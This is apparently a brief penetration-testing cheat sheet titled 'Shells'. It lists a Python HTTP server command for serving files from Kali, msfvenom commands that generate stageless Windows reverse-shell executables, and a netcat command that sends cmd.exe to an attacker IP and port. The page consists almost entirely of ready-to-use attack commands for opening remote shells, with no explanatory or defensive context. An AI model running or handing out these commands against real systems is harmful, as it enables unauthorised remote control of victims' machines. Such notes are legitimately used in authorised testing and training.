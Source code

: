# Shells

## Start HTTP python server on Kali

python3 -m http.server 8080

## Windows reverse shell

Stageless Payloads for Windows

<table data-header-hidden><thead><tr><th width="150"></th><th></th></tr></thead><tbody><tr><td>x86</td><td><code>msfvenom -p windows/shell_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f exe > shell-x86.exe</code></td></tr><tr><td>x64</td><td><code>msfvenom -p windows/shell_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f exe > shell-x64.exe</code></td></tr></tbody></table>

## Start reverse shell from Windows

`c:\temp\nc.exe -e cmd.exe <Attack_IP> <port>`

